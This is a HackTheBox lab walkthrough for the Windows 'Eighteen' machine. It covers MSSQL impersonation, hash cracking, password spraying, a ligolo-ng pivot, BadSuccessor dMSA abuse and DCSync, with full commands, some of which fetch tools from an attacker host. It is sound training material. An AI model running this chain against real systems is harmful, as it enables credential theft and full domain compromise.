




# HackTheBox

## Machine: Eighteen

* OS: `Windows`
* Difficulty: `Easy`
* Initial Creds: `kevin` : `iNa2we6haRj2gaw!`

---

# 1. Reconnaissance

## 1.1 Port Scan

```Bash
PORT     STATE SERVICE  REASON          VERSION
80/tcp   open  http     syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://eighteen.htb/
1433/tcp open  ms-sql-s syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1000.00; RTM
|_ssl-date: 2025-11-16T02:12:25+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-11-16T02:10:44
| Not valid after:  2055-11-16T02:10:44
| MD5:     fd0d 2399 a0b7 07b7 b366 db7c 796a bfba
| SHA-1:   2ecc 90a2 690a a4a6 d38d 1a0b caa9 72eb 4041 2ecf
| SHA-256: a1f2 67cc 153b ba1c 39d8 073f 0188 75d9 c25c e3a4 33b9 e242 1d41 2a2d 00b6 b938
...[snip]...
| ms-sql-ntlm-info:
|   10.XXX.XX.XX:1433:
|     Target_Name: EIGHTEEN
|     NetBIOS_Domain_Name: EIGHTEEN
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: eighteen.htb
|     DNS_Computer_Name: DC01.eighteen.htb
|     DNS_Tree_Name: eighteen.htb
|_    Product_Version: 10.0.26100
| ms-sql-info:
|   10.XXX.XX.XX:1433:
|     Version:
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5985/tcp open  http     syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s
```

Nmap scan identifies three open ports on `DC01.eighteen.htb`:

- Port `80` ⤏ IIS Web Server
- Port `1433` ⤏ MSSQL 2022
- Port `5985` ⤏ WinRM

<br>

Update `/etc/hosts`:

```Bash
echo '10.XXX.XX.XX    DC01.eighteen.htb eighteen.htb DC01' | sudo tee -a /etc/hosts
```

---

# 2. Web Application Analysis

Navigating to **`http://eighteen.htb`** presents a login portal. Since the initially provided credentials fail, let's register a new account to understand the application's functionality.



After logging in, we gain access to the Financial Dashboard. However, attempting to access restricted areas confirms that our self-registered user has no administrative power, returning an "Access denied" message.



Upon further inspection of the web environment and secondary enumeration, we identify a set of credentials belonging to a user named **kevin**:

* **Username:** `kevin`
* **Password:** `iNa2we6haRj2gaw!`

Since these credentials do not grant administrative access to the web portal, we move to verify them against other services identified in our initial scan, specifically **MSSQL**.

---

# 3. MSSQL Exploitation

## 3.1 Initial Credential Testing

Armed with the credentials found during enumeration, we attempt to authenticate to the MSSQL service. Our initial attempt fails because NetExec defaults to Domain Authentication (Active Directory), and it attempted to authenticate as `eighteen.htb\kevin`. By specifying the `--local-auth` flag, we force the tool to use SQL Server Authentication directly against the database engine, ignoring AD.

```Bash
# Successful Authentication
➜ nxc mssql dc01.eighteen.htb \
        -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth
MSSQL       10.XXX.XX.XX   1433   DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb) (EncryptionReq:False)
MSSQL       10.XXX.XX.XX   1433   DC01             [+] DC01\kevin:iNa2we6haRj2gaw!
```

Notably, the banner confirms the target is running **Windows Server 2025** (**Build `26100`**), indicating a modern and potentially hardened environment where we should look for logical misconfigurations rather than legacy exploits.

## 3.2 Service Enumeration

Using the credentials obtained from the web enumeration (`kevin` : `iNa2we6haRj2gaw!`), we authenticate to the MSSQL instance on port 1433. Initial checks show that **kevin** is a standard user and not a member of the `sysadmin` role.

```Bash
➜ nxc mssql dc01.eighteen.htb \
        -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth \
        -q "SELECT IS_SRVROLEMEMBER('sysadmin') as sysadmin_check;"
...[snip]...
MSSQL       10.XXX.XX.XX  1433   DC01             sysadmin_check:0
```

## 3.3 Lateral Movement via Impersonation

We further enumerate the SQL instance using the `enum_impersonate` module. This reveals that **kevin** has the `IMPERSONATE` permission over the **appdev** login.

```Bash
# Enumerating Impersonation Rights
➜ nxc mssql dc01.eighteen.htb \
        -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth \
        -M enum_impersonate
...[snip]...
ENUM_IMP... 10.XXX.XX.XX   1433   DC01             [+] Users with impersonation rights:
ENUM_IMP... 10.XXX.XX.XX   1433   DC01             [*]   - appdev

# Verifying Context Switch
➜ nxc mssql dc01.eighteen.htb \
        -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth \
        -q "EXECUTE AS LOGIN = 'appdev'; SELECT SYSTEM_USER;"
...[snip]...
MSSQL       10.XXX.XX.XX   1433   DC01             appdev
```

## 3.4 Database Discovery and Data Exfiltration

After impersonating **appdev**, we gain the `VIEW ANY DATABASE` permission. This allows us to identify a non-default database named `financial_planner`.

```Bash
# Listing Databases
➜ nxc mssql dc01.eighteen.htb \
        -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth \
        -q "EXECUTE AS LOGIN = 'appdev'; SELECT name FROM sys.databases;"
...[snip]...
MSSQL       10.XXX.XX.XX   1433   DC01             name:master
MSSQL       10.XXX.XX.XX   1433   DC01             name:tempdb
MSSQL       10.XXX.XX.XX   1433   DC01             name:model
MSSQL       10.XXX.XX.XX   1433   DC01             name:msdb
MSSQL       10.XXX.XX.XX   1433   DC01             name:financial_planner
```

Note: Since **`NetExec`** is stateless, a standard **`USE`** statement will fail to maintain the context. To bypass this, we query the users table using its fully qualified name to extract the administrative password hashes.

Note: While NetExec is stateless, we can chain SQL commands using the semicolon delimiter to maintain context (e.g., `-q "USE financial_planner; SELECT * FROM users;"`). Alternatively, we can simply bypass the context switch by querying the target table using its fully qualified name to extract the administrative password hashes.

```Bash
# Dumping Administrative Credentials
➜ nxc mssql dc01.eighteen.htb \
        -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth \
        -q "EXECUTE AS LOGIN = 'appdev'; SELECT * FROM financial_planner.dbo.users;"
...[snip]...
MSSQL       10.XXX.XX.XX   1433   DC01             id:1002
MSSQL       10.XXX.XX.XX   1433   DC01             full_name:admin
MSSQL       10.XXX.XX.XX   1433   DC01             username:admin
MSSQL       10.XXX.XX.XX   1433   DC01             email:admin@eighteen.htb
MSSQL       10.XXX.XX.XX   1433   DC01             password_hash:pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133
MSSQL       10.XXX.XX.XX   1433   DC01             is_admin:1
MSSQL       10.XXX.XX.XX   1433   DC01             created_at:2025-10-29 05:39:03
```

## 3.5 Data Exfiltration Results

The query successfully returns the administrative user's record from the `financial_planner` database.

**Resulting Hash:**

* **Username**: `admin`
* **Password Hash**: `pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133`

---

# 4. Password Cracking

## 4.1 Hash Formatting

The hash extracted from the database is in a format specifically used by the Werkzeug (Flask) framework. To crack this using Hashcat, we need to convert the salt and the digest into a format compatible with mode `10900` (`pbkdf2-sha256`).

**Original Hash:** `pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133`

We transform the salt (ASCII to Base64) and the hash digest (Hex to Base64) using the following commands:

```Bash
# Salt (ASCII ⤏ Base64)
➜ echo -n 'AMtzteQIG7yAbZIa' | base64
QU10enRlUUlHN3lBYlpJYQ==

# Hash Digest (Hex ⤏ Bytes ⤏ Base64)
➜ python -c "from base64 import b64encode; print(b64encode(bytes.fromhex('0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133')).decode())"
BnOtkKC0r7GdZiM28Pzjqe3Qt7GRk3F74ozk1myIcTM=
```

**Final Reconstructed Hash**:

Combining the signature, iterations, base64 salt, and base64 digest, we get the final string for Hashcat: `sha256:600000:QU10enRlUUlHN3lBYlpJYQ==:BnOtkKC0r7GdZiM28Pzjqe3Qt7GRk3F74ozk1myIcTM=`

## 4.2 Cracking with Hashcat

We construct the final hash string in the format `sha256:iterations:salt:digest` and run it against the `rockyou.txt` wordlist.

```Bash
# Crack the Hash
➜ hashcat -a 0 -m 10900 pbkdf2.hash /opt/SecLists/rockyou.txt
...[snip]...
sha256:600000:QU10enRlUUlHN3lBYlpJYQ==:BnOtkKC0r7GdZiM28Pzjqe3Qt7GRk3F74ozk1myIcTM=:iloveyou1
```

## 4.3 Web Portal Validation

With the cracked password `iloveyou1` for the **admin** user, we return to the web portal at `http://eighteen.htb` to see if administrative access provides a direct path to the system.



Logging in as admin grants access to the **Admin Dashboard**, which provides system analytics and user management features.



The "System Information" section confirms the environment details:

* **Database:** MSSQL (dc01.eighteen.htb)
* **Application:** Flask Financial Planner v1.0

While the dashboard provides a high-level overview, it does not offer any direct exploitation vectors like file uploads or command execution. This confirms that the web application is a logical dead end, and the next step is to leverage these credentials against the domain services identified earlier.

---

# 5. Lateral Movement

## 5.1 RID Brute-forcing

Since we have valid MSSQL credentials for `kevin`, we can use the `--rid-brute` flag to enumerate Active Directory users. This is a reliable way to build a target list for password spraying.

```Bash
# RID Brute | Dump Users
➜ nxc mssql dc01.eighteen.htb \
        -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth \
        --rid-brute > rid-brute.out

# Extracting valid users
➜ grep 'EIGHTEEN\\' rid-brute.out | grep -Eo 'EIGHTEEN\\[a-zA-Z0-9.-]+' | awk -F'\\' '{print $2}' > users.txt
```

## 5.2 Password Spraying

We assume that domain users may be reusing their web portal passwords. We take the cracked password `iloveyou1` and spray it against the **WinRM** service using our newly generated `users.txt` list.

```Bash
# Password Spray via WinRM
➜ nxc winrm dc01.eighteen.htb \
        -u users.txt -p 'iloveyou1' \
        --no-bruteforce --continue-on-success
...[snip]...
WINRM       10.XXX.XX.XX   5985   DC01             [+] eighteen.htb\adam.scott:iloveyou1 (Pwn3d!)
```

## 5.3 Initial Shell Access

The user `adam.scott` was identified as having valid credentials and Remote Management permissions. We established an interactive PowerShell session using `evil-winrm-py`.

```powershell
➜ evil-winrm-py -i dc01.eighteen.htb -u 'adam.scott' -p 'iloveyou1'
...[snip]...

PS C:\Users\adam.scott\Documents> whoami; hostname
eighteen\adam.scott
DC01
```

### 5.3.1 User Privilege Enumeration

Upon gaining access, we checked the current user's privileges. The presence of `SeMachineAccountPrivilege` allows the user to register new machine accounts (up to the default quota of `10`) in the domain—a fundamental requirement for the dMSA-based escalation path discovered later.

```Bash
PS C:\Users\adam.scott\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

### 5.3.2 User Flag

We proceeded to capture the user flag from the desktop.

```PowerShell
PS C:\Users\adam.scott\Documents> type ..\Desktop\user.txt
a5****************************27
```

<br>

---

# 6. Privilege Escalation

## 6.1 Security Assessment and Enumeration

Before executing post-exploitation tools, we attempt to check the status of **Windows Defender**. However, as a low-privileged user, we lack the permissions to query the CIM server for the security status.

```powershell
PS C:\Users\adam.scott\Documents> Get-MpComputerStatus
Cannot connect to CIM server. Access denied
```

## 6.2 Domain Enumeration (BloodHound)

Despite the local access denial, we found that we could still perform domain-wide enumeration.

```Powershell
# Downloading and executing SharpHound
PS C:\Temp> iwr http://10.XX.XX.XX/SharpHound.exe -o SharpHound.exe
PS C:\Temp> .\SharpHound.exe -c all
```

Initial analysis of the BloodHound data showed no direct "High Value Targets" control paths. This suggested a more granular permission misconfiguration was at play.

## 6.3 Granular Permission Analysis

Since BloodHound did not show a clear path, we performed a manual ACE check. On a modern target like **Windows Server 2025**, it is often productive to look for legacy permissions applied to Organizational Units (OUs).

```powershell
# Downloading and loading PowerView
PS C:\temp> iwr http://10.XX.XX.XX/PowerView.ps1 -o PowerView.ps1
PS C:\temp> . .\PowerView.ps1

# Sanity Check
PS C:\temp> Get-DomainSID
S-1-5-21-1152179935-589108180-1989892463
```

### 6.3.1 Analysis of Organizational Units (OUs)

To identify potential targets for permission delegation, we enumerate the available OUs. This mapping is essential for finding non-default containers where administrative rights may have been over-extended.

```powershell
# Listing OUs to identify points of interest
PS C:\temp> Get-DomainOU | select name, distinguishedname, objectguid

name               distinguishedname                        objectguid
----               -----------------                        ----------
Domain Controllers OU=Domain Controllers,DC=eighteen,DC=htb 95cb40a0-9539-40a4-ba70-5a96be87f7c8
Staff              OU=Staff,DC=eighteen,DC=htb              852a1403-d0c4-47e4-b70f-f7a44350ae8bc
```

Discovery of a non-default **Staff** OU (`852a1403...`), which serves as a potential focal point for inherited permissions.

## 6.4 Exploiting BadSuccessor OU Permissions

### 6.4.1 Technique Overview

The **[BadSuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)** attack targets a specific implementation flaw in Windows Server 2025. This version of Windows introduced **delegated Managed Service Accounts (dMSA)** to simplify service account migrations.

The vulnerability exists because a user with sufficient rights over an **Organizational Unit (OU)**—specifically `CreateChild` or `WriteProperty`—can create a **dMSA** and link it to a high-privileged "successor" account. When the Kerberos Distribution Center (KDC) processes a request for this dMSA, it merges the privileges of the linked successor into the dMSA's ticket, allowing for full domain compromise.

### 6.4.2 Identifying the Misconfigured OU

Based on the initial identification of the target as **Windows Server 2025**, we used the **`Get-BadSuccessorOUPermissions.ps1`** script by [Akamai ](https://github.com/akamai/BadSuccessor) to hunt for OUs where our current group memberships grant us the specific delegation rights required for this exploit.

```Powershell
# Download the Script
➜ wget https://raw.githubusercontent.com/akamai/BadSuccessor/refs/heads/main/Get-BadSuccessorOUPermissions.ps1

# Upload it to the victim
PS C:\temp> iwr http://10.XX.XX.XX/Get-BadSuccessorOUPermissions.ps1 -o Get-BadSuccessorOUPermissions.ps1

# Executing the BadSuccessor discovery script
PS C:\temp> .\Get-BadSuccessorOUPermissions.ps1

Identity    OUs
--------    ---
EIGHTEEN\IT {OU=Staff,DC=eighteen,DC=htb}
```

The **EIGHTEEN\IT** group (of which `adam.scott` is a member) has the necessary permissions over the **Staff** OU. This confirms that any account within this OU is a candidate for a "successor" link, or we can create a new dMSA within this boundary to elevate our privileges.

## 6.5 Establishing the Pivot: ligolo-ng

While tools like **Chisel** are excellent for simple port forwarding, **`ligolo-ng`** was chosen for this engagement because it provides a full **TUN** interface. This allows us to use complex toolsets (like the Impacket suite and PowerView-Python) from our attack machine as if we were directly on the internal network, without the configuration overhead of proxychains.

### 6.5.1 The Ligolo-ng Workflow

The pivot was established by creating a dedicated TUN interface. To avoid routing conflicts between our VPN interface (`tun0`) and the Ligolo tunnel, we bind the route to a Class E reserved IP address (`240.0.0.1`). This acts as a clean loopback alias, ensuring all traffic directed to `240.0.0.1` is routed natively through the Ligolo agent to the Domain Controller.

**1. Attacker Side:**

We initialize the proxy and create the internal route using a loopback-style address (`240.0.0.1`) to ensure stable communication with the DC.

```Bash
## Attacker

# Start the proxy
➜ sudo ./proxy -selfcert

# Initializing the interface
ligolo-ng » ifcreate --name ligolo

# Create a route
ligolo-ng » route_add --name ligolo --route 240.0.0.1/32
```

**2. Victim Side:**

The agent binary is uploaded and then executed on the target, connecting back to our proxy.

```Bash
## Victim

# Upload the agent binary
PS C:\temp> iwr http://10.XX.XX.XX/agent.exe -o agent.exe

# Execute the agent binary
PS C:\temp> .\agent.exe -connect 10.XX.XX.XX:11601 -ignore-cert
```

**3. Attacker Side:**

We receive the connection on our proxy, and select the session and start the tunnel.

```Bash
## Attacker

# Connection received
ligolo-ng » INFO[0043] Agent joined.                                 id=005056947f2d name="EIGHTEEN\\adam.scott@DC01" remote="10.XXX.XX.XX:54436"

# Select sesssion
ligolo-ng » session
? Specify a session : 1 - EIGHTEEN\adam.scott@DC01 - 10.XXX.XX.XX:54436 - 005056947f2d

# Start the tunnel
[Agent : EIGHTEEN\adam.scott@DC01] » start
INFO[0051] Starting tunnel to EIGHTEEN\adam.scott@DC01 (005056947f2d)
```

**4. Verify Connection:**

```Bash
➜ export rhost='240.0.0.1'

➜ nxc ldap $rhost \
        -u 'adam.scott' -p 'iloveyou1'
LDAP        240.0.0.1       389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:eighteen.htb) (signing:Enforced) (channel binding:No TLS cert)
LDAP        240.0.0.1       389    DC01             [+] eighteen.htb\adam.scott:iloveyou1
```

> **Note:** While we previously identified the **Staff OU** misconfiguration using the **`Get-BadSuccessorOUPermissions.ps1`** script during initial local enumeration on the target, using **NetExec** from our attack machine allowed us to confirm the exploitability of **CVE-2025-53779 (BadSuccessor)** and cross-reference our findings across multiple protocols (SMB/LDAP).

### 6.5.2 Remote Vulnerability Enumeration (NetExec)

Once the **Ligolo-ng** tunnel was active, we performed remote enumeration from our attack machine using **NetExec**. This allowed us to confirm the presence of Windows Server 2025-specific vulnerabilities without relying on local scripts on the target.


**1. Checking for Known CVEs:**

We used the `enum_cve` module to identify potential escalation paths.

```Bash
➜ nxc smb $rhost \
        -u 'adam.scott' -p 'iloveyou1' -M enum_cve

...[snip]...
ENUM_CVE    240.0.0.1       445    DC01             CVE-2025-58726 - Ghost SPN - Relay possible from SMB using Ghost SPN (non HOST/CIFS) for Kerberos reflection to other protocols except SMB
ENUM_CVE    240.0.0.1       445    DC01             CVE-2025-54918 - NTLM MIC Bypass - Note that without CVE-2025-33073 only Windows Server 2025 is exploitable
ENUM_CVE    240.0.0.1       445    DC01             CVE-2025-53779 - BadSuccessor - Escalation to Domain Admin possible via dMSA Kerberos abuse
```

**2. Locating Writable OUs for dMSA:**

Using the `badsuccessor` module, we identified exactly where our current user had the permissions to create a delegated Managed Service Account.

```Bash
➜ nxc ldap $rhost \
        -u 'adam.scott' -p 'iloveyou1' -M badsuccessor

...[snip]...
BADSUCCE... 240.0.0.1       389    DC01             [+] Found domain controller with operating system Windows Server 2025: 10.XXX.XX.XXX (DC01.eighteen.htb)
BADSUCCE... 240.0.0.1       389    DC01             [+] Found 1 results
BADSUCCE... 240.0.0.1       389    DC01             IT (S-1-5-21-1152179935-589108180-1989892463-1604), OU=Staff,DC=eighteen,DC=htb
```

The enumeration confirmed that our membership in the **IT** group granted us the necessary rights over the **Staff** OU.


## 6.6 Exploitation: BadSuccessor

With the vulnerable **OU** identified and the **`ligolo-ng`** tunnel active, we move to the weaponization phase.

### 6.6.1 The Attack Strategy

The exploitation involves three distinct phases:

1. **Creation**: Create a new dMSA object within an OU where we have `CreateChild` permissions.
2. **Linking**: Populate the `msDS-ManagedAccountPrecededByLink` attribute with the Distinguished Name (DN) of the target high-privileged account (e.g., Administrator).
3. **Finalization**: Set `msDS-DelegatedMSAState` to `2` to mark the migration as complete, triggering the privilege inheritance logic in the KDC to include the successor's SIDs in our Kerberos ticket.

### 6.6.2 Creating the dMSA with PowerView

Using the **PowerView-Python** implementation over our Ligolo tunnel, we execute the `Add-DomainDMSA` command. Note that we use `fake_time` to synchronize our attack machine's clock with the Domain Controller to avoid Kerberos authentication failures.

```Bash
➜ fake_time $rhost \
powerview adam.scott:'iloveyou1'@240.0.0.1

[2026-04-11 02:17:42] LDAP Signing is enforced!

# Creating the dMSA 'jvar' and linking it to the Administrator
╭─🔒 LDAP─[DC01.eighteen.htb]─[EIGHTEEN\adam.scott]-[NS:240.0.0.1]
╰─ ❯ Add-DomainDMSA -Identity jvar -SupersededAccount Administrator -BaseDN "OU=Staff,DC=eighteen,DC=htb" -PrincipalsAllowedToRetrieveManagedPassword adam.scott

[2026-04-11 02:18:10] [Add-DomainDMSA] Successfully created DMSA account jvar

# Confirm our account was created successfully
╭─🔒 LDAP─[DC01.eighteen.htb]─[EIGHTEEN\adam.scott]-[NS:240.0.0.1]
╰─ ❯ Get-DomainDMSA

distinguishedName                            : CN=jvar,OU=Staff,DC=eighteen,DC=htb
objectSid                                    : S-1-5-21-1152179935-589108180-1989892463-12609
sAMAccountName                               : jvar$
dNSHostName                                  : jvar.eighteen.htb
msDS-GroupMSAMembership                      : EIGHTEEN\adam.scott
msDS-DelegatedMSAState                       : MIGRATED
msDS-ManagedAccountPrecededByLink            : CN=Administrator,CN=Users,DC=eighteen,DC=htb
```

## 6.7 Privilege Escalation & NTDS Dumping

Once the **dMSA** account (`jvar$`) is linked to the Administrator successor, we can request a service ticket that carries the Administrator's privileges.

### 6.7.1 Kerberos Ticket Manipulation

First, we retrieve a TGT for our initial user, `adam.scott`. We then use that TGT to request a Service Ticket (ST) for the **dMSA**, using the `-dmsa` flag to trigger the impersonation logic.

```Bash
# Get TGT for adam.scott
➜ fake_time $rhost \
getTGT.py eighteen.htb/'adam.scott:iloveyou1' -dc-ip $rhost

[*] Saving ticket in adam.scott.ccache

# Impersonate jvar$ to get the successor privileges
➜ fake_time $rhost \
env KRB5CCNAME=adam.scott.ccache \
getST.py eighteen.htb/adam.scott \
        -impersonate 'jvar$' \
        -self \
        -dmsa \
        -k -no-pass \
        -dc-ip $rhost
...[snip]...

[*] Impersonating jvar$
[*] Requesting S4U2self
[*] Current keys:
[*] EncryptionTypes.aes256_cts_hmac_sha1_96:2228154556c4156813afec2aa98977bc04e39e271e434c093a93661706701e9d
[*] EncryptionTypes.aes128_cts_hmac_sha1_96:e242a526bff9fdc190a5a90540398ed6
[*] EncryptionTypes.rc4_hmac:f1f0e753401a47036ce490309b92515a
[*] Previous keys:
[*] EncryptionTypes.rc4_hmac:0b133be956bfaddf9cea56701affddec
[*] Saving ticket in jvar$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache
```

### 6.7.2 Dumping Domain Hashes (DCSync)

With the high-privileged ticket for `jvar$`, we have the necessary rights to perform a **DCSync** against the Domain Controller.

```Bash
# Dump Hashes
➜ fake_time $rhost \
env KRB5CCNAME="jvar\$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache" \
secretsdump.py EIGHTEEN.HTB/jvar\$@dc01.eighteen.htb \
      -k -no-pass \
      -dc-ip $rhost \
      -target-ip $rhost \
      -just-dc-user Administrator

...[snip]...
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0b133be956bfaddf9cea56701affddec:::
[*] Kerberos keys grabbed
Administrator:0x14:977d41fb9cb35c5a28280a6458db3348ed1a14d09248918d182a9d3866809d7b
Administrator:0x13:5ebe190ad8b5efaaae5928226046dfc0
Administrator:aes256-cts-hmac-sha1-96:1acd569d364cbf11302bfe05a42c4fa5a7794bab212d0cda92afb586193eaeb2
Administrator:aes128-cts-hmac-sha1-96:7b6b4158f2b9356c021c2b35d000d55f
Administrator:0x17:0b133be956bfaddf9cea56701affddec
[*] Cleaning up...
```

